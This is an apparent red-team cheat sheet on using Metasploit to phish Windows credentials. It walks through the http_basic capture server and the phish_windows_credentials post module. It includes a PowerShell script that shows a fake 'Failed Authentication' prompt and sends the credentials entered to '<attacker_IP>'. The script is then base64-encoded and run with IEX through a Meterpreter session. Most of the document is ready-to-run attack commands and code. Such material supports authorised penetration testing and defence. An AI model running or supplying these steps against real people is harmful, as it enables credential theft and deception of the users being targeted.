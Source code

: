 # Metasploit

Search Tag(s): #privilege-escalation #windows

## 01 - Usage

### 1.1 - Auxiliary Module

- MSF HTTP Client Basic Authentication Credential Collector Auxiliary Module

```
msf > use auxiliary/server/capture/http_basic

msf auxiliary(server/capture/http_basic) > options

Module options (auxiliary/server/capture/http_basic):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   REALM        Secure Site      yes       The authentication realm you'd like to present.
   RedirectURL                   no        The page to redirect users to after they enter basic auth creds
   SRVHOST      0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT      80               yes       The local port to listen on.
   SSL          false            no        Negotiate SSL for incoming connections
   SSLCert                       no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                       no        The URI to use for this exploit (default is random)


Auxiliary action:

   Name     Description
   ----     -----------
   Capture  Run capture web server


msf auxiliary(server/capture/http_basic) > set uripath [/uri_path]

msf auxiliary(server/capture/http_basic) > set srvhost <IP>

msf auxiliary(server/capture/http_basic) > set srvport <PORT>

msf auxiliary(server/capture/http_basic) > set ssl <true | false>

msf auxiliary(server/capture/http_basic) > set sslcert /path/to/cert.pem

msf auxiliary(server/capture/http_basic) > set realm <realm_name>

msf auxiliary(server/capture/http_basic) > set redirectURL <url>

msf auxiliary(server/capture/http_basic) > run
```

### 1.2 - Post

```
msf > use post/windows/gather/phish_windows_credentials

msf post(windows/gather/phish_windows_credentials) > options

Module options (post/windows/gather/phish_windows_credentials):

   Name         Current Setting                                                                Required  Description
   ----         ---------------                                                                --------  -----------
   DESCRIPTION  {PROCESS_NAME} needs your permissions to start. Please enter user credentials  yes       Message shown in the loginprompt
   PROCESS                                                                                     no        Prompt if a specific process is started by the target. (e.g. calc.exe or specify * for all processes)
   SESSION                                                                                     yes       The session to run this module on.

msf post(windows/gather/phish_windows_credentials) > set description <description>

msf post(windows/gather/phish_windows_credentials) > set process <program.exe>

msf post(windows/gather/phish_windows_credentials) > set session <session_id>

msf post(windows/gather/phish_windows_credentials) > run
```

## 02 - Use Case

### 2.1 - Capture credentials with the webserver

- Run the auxiliary module to setup http webserver

```
msf > use auxiliary/server/capture/http_basic

msf auxiliary(server/capture/http_basic) > set uripath /

msf auxiliary(server/capture/http_basic) > set srvhost 0.0.0.0

msf auxiliary(server/capture/http_basic) > set srvport 443

msf auxiliary(server/capture/http_basic) > set ssl true

msf auxiliary(server/capture/http_basic) > run
```

- Using the powershell script to execute it the victim

`$ cat phish.txt`

---

```powershell
$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName + "\" + [Environment]::UserName,[Environment]::UserDomainName);[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};
$wc = New-Object Net.WebClient;
$wc.Headers.Add("User-Agent","<user_agent>");
$wc.Proxy = [System.Net.WebRequest]::DefaultWebProxy;
$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
$wc.credentials = new-object system.net.networkcredential($cred.username, $cred.getnetworkcredential().password, '');
$result = $wc.downloadstring('https://<attacker_IP>/');
```

- Encode it into base64

`$ iconv -t UTF-16LE phish.txt | base64 -w 0`

- Then copy the encoded text file in the powershell script.

`$ cat encoded.ps1`

---

```powershell
IEX ([System.Text.Encoding]::Unicode.GetString(([convert]::FromBase64String('<base64_encoded>'))))
```

- Then execute the powershell script with a post module.

`meterpreter > run post/windows/manage/exec_powershell script=encoded.ps1`

### 2.2 - Post Module

```
msf > use post/windows/gather/phish_windows_credentials

msf post(windows/gather/phish_windows_credentials) > set process *

msf post(windows/gather/phish_windows_credentials) > set session <session_id>

msf post(windows/gather/phish_windows_credentials) > run
```

---
## References

- [[User Agents]]

- [Malicious.link](https://room362.com/posts/2015/powershell-popups-and-capture/)

- [Rapid7: Metasploit Framework Phishing Windows Credentials](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/phish_windows_credentials.md)

- [Enigma0x3: Phishing for Credentials If you want it, just ask!](https://enigma0x3.net/2015/01/21/phishing-for-credentials-if-you-want-it-just-ask/)

- [Home-Grown Red Team: Internal Windows Phishing With Pickl3 And InsideMan](https://assume-breach.medium.com/home-grown-red-team-internal-windows-phishing-with-pickl3-and-insideman-2cd2e92f7d3e)

- [Invoke-LoginPrompt](https://github.com/rapid7/metasploit-framework/blob/master/data/post/powershell/Invoke-LoginPrompt.ps1)